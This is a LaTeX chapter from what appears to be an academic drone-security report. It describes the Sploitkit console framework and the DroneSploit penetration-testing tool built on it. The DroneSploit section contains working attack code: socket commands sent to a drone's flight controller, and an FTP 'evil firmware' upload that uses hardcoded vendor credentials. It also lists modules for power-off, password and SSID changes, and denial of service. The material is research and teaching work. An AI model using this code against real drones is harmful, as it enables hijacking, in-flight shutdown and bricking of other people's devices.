\begin{chaptercover}{Framework}%
{\coverepigraph{``Any program is only as good as it is useful."}{\textsc{Linus Torvalds} \newline {\normalsize\vspace{-.3cm}Creator of Linux}}
{\large \hyphenation{} \bigletter{F}{rameworks} are flourishing these days, especially in cybersecurity (e.g. Metasploit \cite{metasploit}). These kinds of toolkit generally gather a lot of knowledge acquired and automated by a myriad of security experts, trying to provide a solution as complete as possible. \newline \\ DroneSploit, the framework we propose to build, is an attempt to mechanize drone hacking techniques in particular, the most user-friendly way possible. This section presents the basics of its underlying library and the exploits we could automate in the new framework. \newline\\}}%
{framework}

\lstset{
language=python,
basicstyle=\ttfamily,
%otherkeywords={self},             % Add keywords here
keywordstyle=\ttfamily\color{SecondBlue},
%emph={MyClass,__init__},          % Custom highlighting
emphstyle=\ttfamily\color{venetianred},    % Custom highlighting style
stringstyle=\ttfamily\color{forestgreen(web)},
commentstyle=\ttfamily\color{prune},
frame=tb,                         % Any extra options here
showstringspaces=false            % 
}

\section{Sploitkit}

This section succinctly presents Sploitkit, a \textit{toolkit for building Metasploit-like consoles}. \cite{sploitkit}

\subsection{Philosophy}

\textit{Sploitkit is a framework designed to quickly build CLI consoles with a style ressembling that of Metasploit. It features a clear and intuitive plugin architecture that allows to build consoles with new commands or modules but also models for their internal stores. This is another framework made according to the \acrshort{dry} philosophy.} \cite{sploitkit-docs}

Briefly, this framework written in Python is built to facilitate the creation of new penetration testing consoles tailored to specific use cases, especially when these are not extensively covered in some well-known frameworks like Metasploit. It uses a popular Python3-only package called \texttt{prompt\_toolkit} \cite{prompt-toolkit} designed to make beautiful CLI applications with, for instance, dropdown lists (for command autocompletion), menus or toolbars.

\subsection{\acrlong{api}}

Sploitkit aims to provide an easy and convenient \acrshort{api} for quickly extending the console with new commands, modules and store models in an object oriented manner. It defines multiple \textit{entities} which are customizable by the developer :
\begin{itemize}
  \item \texttt{Console} : This is the class used to define new (sub)console levels. As it suggests, a level (defined with the \texttt{level} attribute) will determine a scope for the related console, allowing to filter out unapplicable entities (like commands and modules). Its prompt (added to its parent's level) can be customized with the \texttt{prompt} attribute.
  \item \texttt{Command} : This class allows to define a command callable from a console through the definition of its \texttt{run()} method. When bound to a console, it has an attribute with the same name to be able to use console's configuration settings. A command can be associated with a console level or with every level except those defined in the \texttt{except\_levels} attribute. It can also have aliases (using the attribute with the same name). Also worth being mentioned, a command can define completion methods (\texttt{complete\_values} and \texttt{complete\_options}) and/or a \texttt{validate} method to fine-tune its working and feedback to the user.
  \item \texttt{Module} : This class allows to gather complex computation aimed to run inside a dedicated console level, just like Metasploit and other ressembling frameworks do (typically selecting a module with a \texttt{use} command, then setting module's parameters before running the \texttt{run} or \texttt{exploit} command). This logic is defined in the \texttt{run()} method.
  \item \texttt{BaseModel}, \texttt{Model}, \texttt{StoreExtension} : These classes aim to refine data store's structure with new \acrshort{orm} models. Typically, new models will be defined subclassing \texttt{Model} while \texttt{BaseModel} will be used for association tables. The \texttt{StoreExtension}'s allow to add custom methods to the store by behaving like mixin classes included in store's class inheritance.
\end{itemize}

With these entities, all the mechanics of a good console can easilly be declared to create a new CLI framework dedicated to ones use case. For more details on how to use the different \acrshort{api}'s, the interested reader can refer to Sploitkit's documentation \cite{sploitkit-docs}.

\subsection{Quick start}\label{subsec:sploitkit-quickstart}

The following demonstrates Sploitkit's easy and comprehensive interface to quickly get started :

\paragraph{Start with a \texttt{FrameworkConsole}} A main file can be created to put the subclassed \texttt{FrameworkConsole} as a basis for the new console, as shown below.

\begin{center}
\begin{lstlisting}[caption={Main file \texttt{main.py} for the new console},emph={MySploitConsole,FrameworkConsole}]
#!/usr/bin/python3
from sploitkit import FrameworkConsole

class MySploitConsole(FrameworkConsole):
    # set your console items here
    pass
    # default sources:
    #sources = {
    #    'banners':  None,
    #    'entities': ["commands", "models", "modules"],
    #} 

if __name__ == '__main__':
    MySploitConsole(
        "MySploit",
        # configure your console settings here
    ).start()
\end{lstlisting}\label{lst:framework-console}
\end{center}

As mentioned in the comments in Listing \ref{lst:framework-console}, some default sources are defined. These are the base folders where Sploitkit will search for additionnal commands, modules and models. Accessorily, Sploitkit provides a funny feature allowing to generate banners from the application name (here "\texttt{MySploit}") and converting images from the \texttt{banners} source folder (i.e. in JPG or PNG format) to ASCII images for display at console's startup.

\paragraph{Adding a \texttt{Command}} Commands can be created in separate files, saved in one of the folders from sources' \texttt{entities} field. An example of command is shown hereafter. This is a command included in the base entities of Sploitkit.

\begin{center}
\begin{lstlisting}[caption={Commands file \texttt{sploitkit/base/module.py} from Sploitkit},emph={Use,Command,run}]
# -*- coding: UTF-8 -*-
from sploitkit import *
[...]
class Use(Command):
    """ Select a module """
    def complete_values(self):
        return Module.get_list()
    
    def run(self, module):
        new_mod, old_mod = Module.get_modules(module), self.module
        # avoid starting a new subconsole for the same module
        if old_mod is not None and old_mod.fullpath == new_mod.fullpath:
            return
        ModuleConsole(self.console, new_mod).start()
[...]
\end{lstlisting}\label{lst:framework-command}
\end{center}

This is an example of a command starting a subconsole. It uses the list of loaded modules for value autocompletion. Note that Sploitkit handles the validation by itself using the return value of \texttt{complete\_values}, this prevents the developer from rewriting code handling the same list of values.

\paragraph{Adding a first \texttt{Module}} A module can be created by simply subclassing \texttt{Module}, defining its custom configuration and its \texttt{run()} method like shown in Listing \ref{lst:framework-module}.

\begin{center}
\begin{lstlisting}[caption={Module file \texttt{my-first-module.py}},emph={MyFirstModule,Module,run,config,Config,Option}]
# -*- coding: UTF-8 -*-
from sploitkit import Config, Module, Option

class MyFirstModule(Module):
    config = Config({
        Option("PARAM", "param description", True): "default_value",
    })
    path = "path/to/module"  # module will be called with
                             # 'path/to/module/my_first_module'
    def run(self):
        # do something
        pass
\end{lstlisting}\label{lst:framework-module}
\end{center}

Module's path (for calling it with the \texttt{use} command from a console) can be defined in two different ways :
\begin{enumerate}
  \item Explicitely set the \texttt{path} attribute ; the full path will be its value and the sluggified value of module's class name (using underscores instead of hyphens between words). An example is mentioned in comment in Listing \ref{lst:framework-module}.
  \item Set the real folder and its subfolders as the path ; the full path will be the real complete path to the file where the module is defined and the sluggified value of module's class name.
\end{enumerate}


\section{Dronesploit}

This section presents Dronesploit, a \textit{drone penetration testing framework} \cite{dronesploit}, built to automate the exploits whose working is presented in Chapter \ref{exploits}.

\subsection{Core}

With the quick start steps from Subsection \ref{subsec:sploitkit-quickstart} in mind, we can now build DroneSploit.

\begin{center}
\begin{lstlisting}[caption={Main file \texttt{main.py} of DroneSploit},emph={DronesploitConsole,FrameworkConsole}]
#!/usr/bin/python3
from sploitkit import FrameworkConsole

class DronesploitConsole(FrameworkConsole):
    sources = {'banners': "./banners"}

if __name__ == '__main__':
    DronesploitConsole(
        "dronesploit",
        banner_colorized_sections=("title", )
    ).start()
\end{lstlisting}\label{lst:dronesploit-console}
\end{center}

As easy as presented in Figure \ref{lst:dronesploit-console} and thanks to the base mechanics (subconsoles, commands, modules and models) from Sploitkit, we now have a starting point for our new framework !

\subsection{Modules}

With the exploit processes from Chapter \ref{exploits} in mind, we can now build DroneSploit's modules according to the schema in Figure \ref{fig:dronesploit-modules}. Note that all the modules are named according to the C-me drone but are also applicable to the Flitt except for the set of modules related to the firmware. The module class names should not be confused with the actual Sploitkit \texttt{Command}'s and are named this way to reflect commands for the fly controller.

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{figures/dronesploit-modules}
  \caption{Dronesploit modules represented in a UML fashion}
  \label{fig:dronesploit-modules}
\end{figure}

All the modules rely on a base proxy class \texttt{CmeCommand} defining a \texttt{send\_command} method that allows to interact with drone's fly controller. The different sets of modules are represented with distinct colors :
\begin{itemize}
  \item \textbf{Information request modules} (in blue) : these directly subclass the \texttt{CmeCommand} and use a command index (as discovered in Subsection \ref{subsec:reverse-engineering}) with the \texttt{send\_command} method.
  \item \textbf{Setting change modules} (in green) : these subclass the \texttt{CmeChangeCommand} that adds some particular required config options for the drone command to work.
  \item \textbf{Firmware modules} (in red) :  these subclass the \texttt{CmeUpdateCommand} that defines a \texttt{send\_update} method to interact with FTP before triggering the actual update with the \texttt{send\_command} method.
\end{itemize}

The code hereafter demonstrates the logic of the aforementioned modules as of the information obtained in Chapter \ref{exploits}.

\paragraph{Modifying drone configuration} As described in Subsection \ref{subsec:sending-config-commands}, we were able to understand protocol used to modify a drone's configuration. It was then rather straightforward to develop a script that would send the same payload. We used a socket to establish a connection with the device. Then, we simply send the command. 

\begin{center}
\begin{lstlisting}[caption={Piece of code for sending a drone command}]
import socket

def send_command(ip, port, id, param):
    """
    :param ip:    drone's IP
    :param port:  drone's fly controller port
    :param id:    command identification number
    :param param: command set of parameters
    """
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    s.send(b'{"CMD" : %d, "PARAM" : %s}' % (id, param))
    return s.recv(1024).strip() == b"0"
\end{lstlisting}\label{lst:dronesploit-drone-command}
\end{center}

As shown in Listing \ref{lst:dronesploit-drone-command}, simple TCP socket is required with drone's IP and port to send a dictionary holding the command identifying number and its parameters. Afterwards, drone's fly controller returns a value "\texttt{0}" for success and "\texttt{-1}" for failure.

\paragraph{Uploading modified firmware} Following the work of Subsection \ref{subsec:post-exploitation}, we were able to have a peek at the FTP commands necessary to open a connection and upload a new version of the firmware. Combined with the credentials discovered in the Subsection \ref{subsec:reverse-engineering}, we could successfully develop a script that allows to upload the modified version of the firmware to the drone, using a socket connection and a syntax analog to the module above.

\begin{center}
\begin{lstlisting}[caption={Piece of code for sending an evil firmware update}]
from ftplib import FTP

def send_update(ip, port, filename):
    ftp = FTP(ip, port)
    ftp.sendcmd("USER AW819")
    ftp.sendcmd("PASS 1663819")
    ftp.sendcmd("SYST")
    ftp.sendcmd("PWD")
    ftp.sendcmd("TYPE I")
    ftp.sendcmd("CWD /")
    ftp.sendcmd("PASV")
    with open(filename, 'rb') as f:
        ftp.storbinary("STOR 0.7.15.zip", f)
    ftp.quit()
    if send_command(ip, port, 71, '"0.7.15"'):
        time.sleep(10)
        return True
    return False
\end{lstlisting}\label{lst:dronesploit-firmware-update}
\end{center}

As shown in Listing \ref{lst:dronesploit-firmware-update}, we can simply open an FTP session and mimic the FTP commands as found in Subsection \ref{subsec:post-exploitation} to upload our evil firmware update. Then, we can send a drone command to trigger the actual update. If it succeeds, the update process takes roughly 10 seconds.

\paragraph{In-flight shutdown} As an additional note, when having enabled the Telnet service, it is trivial to send a shutdown command after establishing a connection to the drone through a terminal. This could be automated in a module in a near future.

\begin{tip}
As a reminder, the information request (in blue) and setting change (in green) modules apply to both the Flitt and the C-me. The set of firmware update commands only applies to the C-me.
\end{tip}

\begin{summary}
\textbf{Sploitkit}, written in Python, was recently created and provides a comprehensive framework for building terminal-based interfaces. It is designed with the \acrshort{dry} philosophy in mind and provides an \acrshort{api} that makes easy to create what are called \textit{entities}. These consist in :
\begin{itemize}
  \item \texttt{Console}'s : for building new console levels.
  \item \texttt{Command}'s : for creating commands for the consoles.
  \item \texttt{Module}'s : for making modules handling complex computation that do not fit into commands. 
  \item \texttt{Model}'s : for tuning the data schem of the internal store (useful for collecting report information).
\end{itemize}

Above this framework, we can now build an application called \textbf{DroneSploit} that is purely focused on our use case, drone hacking. For this purpose, we retrieve the knowledge acquired in Chapters \ref{scope} and \ref{exploits}. From this, we can essentially deduce two important logics :
\begin{enumerate}
  \item Send specifically formatted commands to the drones \newline (applies to the Flitt but to the C-me as well)
  \item Push a firmware update and trigger the update process \newline (only for the C-me)
\end{enumerate}

This led us to build the following \textbf{modules} :
\begingroup
\renewcommand*{\arraystretch}{1.3}
\begin{center}
\rowcolors{2}{gray!25}{white}
  \begin{tabular}{L{5cm}C{3cm}C{3.5cm}}
  \rowcolor{gray!50}
  \hf{5cm}{} & \hf{3cm}{Flitt Selfie Cam} & \hf{3.5cm}{C-me Selfie Drone} \\
  Get system information & \ding{51} & \ding{51} \\
  Power off & \ding{51} & \ding{51} \\
  Stop video recording & \ding{51} & \ding{51} \\
  Change datetime & \ding{51} & \ding{51} \\
  Change password & \ding{51} & \ding{51} \\
  Change SSID & \ding{51} & \ding{51} \\
  Evil firmware update & \ding{55} & \ding{51} \\
  Denial-of-Service update & \ding{55} & \ding{51} \\
  \end{tabular}
\end{center}
\endgroup

It was also possible to automate some \textbf{WiFi password cracking} techniques using available open source code, to be adapted in Sploitkit modules.

The resulting project can be found on GitHub. \cite{dronesploit}
\end{summary}

\begin{discussion}
While the exploitation phase had already become exciting, this one turned out to be inspiring. It dealed with more complex, parametrizable and repeatable logics in Python so that, at the end, we could write modules for a brand new application based on Sploitkit.

While creating modules, this paved the way to automating more and more possible ways of attack on a broad range of targets. Indeed, now that a basis is stated with DroneSploit, it will be relatively easy to add new modules for out-of-scope drones that are already parsed in the current literature, e.g. the Parrot AR or yet DJI Tello drones. This will be the subject of further exciting researches !

For the viewing pleasure, here is a screenshot of what DroneSploit currently looks like :


\includegraphics[width=\linewidth]{figures/dronesploit}

To be continued !
\end{discussion}

\end{chaptercover}
